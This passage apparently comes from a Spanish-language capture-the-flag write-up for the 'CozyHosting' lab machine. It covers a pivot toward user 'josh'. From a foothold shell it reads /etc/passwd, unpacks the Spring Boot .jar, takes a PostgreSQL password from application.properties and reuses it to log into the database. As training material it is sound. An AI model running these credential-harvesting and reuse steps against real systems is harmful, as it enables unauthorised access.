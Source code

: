 ### Pivoteo al usuario josh
Se ven todos los usuarios con acceso a una shell y se tiene a "josh"
~~~bash
app@cozyhosting:/app$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
~~~
Por lo que se debe hacer es saltar a ese usuario.
En el lugar donde tengo la shell que es "/app" se tiene un archivo .jar que es un backend de java, normalmente dentro de esta suele estar todos los archivos de configuracion y demas por lo que vendria a ser un buen lugar para empezar a enumerar.
Primero se pasa todo a mi maquina y basicamente descomprimirla.
~~~
unzip cloudhosting-0.0.1.jar
Archive:  cloudhosting-0.0.1.jar
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
   creating: org/
   creating: org/springframework/
   creating: org/springframework/boot/
<SNIP>
~~~
La forma mas facil seria buscar algo que contenga password, pass, creds, o cosas similares, pero como a mi me gusta complicarme la vida, busco archivo por archivo para ver todo.
Despues de casi una hora de lectura, descubri un archivo llamado "application.properties" que contiene una contraseña.
~~~
cat cozyhosting/content/BOOT-INF/classes/application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg<SNIP>xR
~~~
Como siempre digo "contraseña que veo, contraseña que pruebo", primero se me ocurrio ver si las credenciales sirven para autenticarse por ssh, pero lastimosamente no son las credenciales validas, por ende, se prueban las credenciales en el mismo postgres que es para lo que existen.
Dentro de la maquina objetivo se prueban las credenciales.
~~~bash
app@cozyhosting:/app$ psql -U postgres -h localhost
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres-# \list
postgres-# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting-# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

~~~
